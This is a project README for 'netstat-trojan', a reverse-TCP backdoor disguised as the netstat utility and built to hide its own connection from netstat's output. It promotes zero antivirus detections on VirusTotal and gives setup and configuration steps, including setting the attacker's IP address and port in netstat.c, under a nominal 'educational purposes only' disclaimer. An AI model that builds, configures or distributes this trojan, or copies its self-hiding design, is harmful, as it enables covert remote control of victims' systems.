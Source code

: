 ```
            /********************************************************************\
           *                           DISCLAIMER:                            *
           *                                                                  *
           *  This program is for educational purposes only. Usage signifies  *
           *  understanding of risks. Usage on unauthorized systems is        *
           *  prohibited.                                                     *
           *                                                                  *
           *  - Use only with proper authorization. Unauthorized use is       *
           *    strictly prohibited.                                          *
           *                                                                  *
           *  - The creator assumes no liability for damages or legal         *
           *    consequences caused by this program.                          *
           *                                                                  *
           *  - Ensure compliance with applicable laws and regulations.       *
           *                                                                  *
           *  Use responsibly, ethically, and respect others' privacy and     *
           *  security.                                                       *
          \********************************************************************/
```


# netstat-trojan
**netstat-trojan** is a reverse-TCP backdoor disguised within the netstat utility. It's designed to automatically exclude itself from the netstat output. 

[VIRUS TOTAL RESULTS](https://www.virustotal.com/gui/file/7b2d7a27e5907cc3210ab57aa1dc376c0555acb96da29288ca700408e68dbc3d/detection) 0/63

## Setup

1. Clone the repository:
   ```bash
   git clone https://github.com/Drew-Alleman/netstat-trojan/
   ```
2. Navigate to the cloned directory:
   ```bash
   cd netstat-trojan/
   ```
3. Initialize the configuration scripts:
   ```bash
   ./autogen.sh
   ```
4. Run the configuration:
   ```bash
   ./configure
   ```

## Configuration Process
To configure the Netstat-Trojan to suit your specific needs, you will need to modify the `netstat.c` file:

1. Open `netstat.c` in your preferred text editor. For example, using `vim`:
   ```bash
   drew@ubuntu-desktop:~/Projects/netstat-trojan$ vim src/netstat.c
   ```
2. Locate and modify the following settings:

   - **Port Configuration**: Define the port to host the backdoor.
     ```c
     #define PORT 44566
     ```
   - **Server IP Configuration**: Set the attacking IP address or the server address that the backdoor will connect to.
     ```c
     #define SERVER_IP "192.168.0.87"
     ```

Ensure that you replace `PORT` and `SERVER_IP` with the values that align with your desired configuration.
